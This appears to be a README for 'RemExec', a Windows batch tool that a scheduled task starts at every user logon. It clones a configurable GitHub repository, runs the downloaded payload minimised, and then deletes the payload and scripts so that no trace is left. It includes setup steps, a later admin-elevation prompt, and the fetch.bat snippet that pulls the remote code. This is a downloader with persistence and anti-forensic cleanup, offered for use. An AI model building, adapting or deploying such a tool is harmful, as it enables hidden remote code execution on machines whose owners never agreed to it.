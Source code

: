 To install it run the "elevate.bat" no admin required for now... It will be required ~3 seconds later :). This will create a task from "fetch.xml" that is visible in Task Scheduler on main page and will be started at user logon!

*create "safe.txt" to bypass the payload execution! If installed via installer in ("%localappdata%\Programs\RemExec") or in root folder (after extraction) in case of RemExec is downloaded from here*
  
  
  
  
  RemExec is a program that is used to download payload from a repository and execute it on a pc at starup!

-At logon a task is scheduled to run and download the payload
  
-It runs itself
  
-After exiting auto-deletes the folder of payload and script leaving no trace!

Costumize the github repo that is used to download the payload from the "fetch.bat" (ONLY FILE THAT CAN BE SAFE TO EDIT)




        @echo off
        call git clone https://github.com/USER/REPOSITORY.git
        start /min execute.bat
        exit

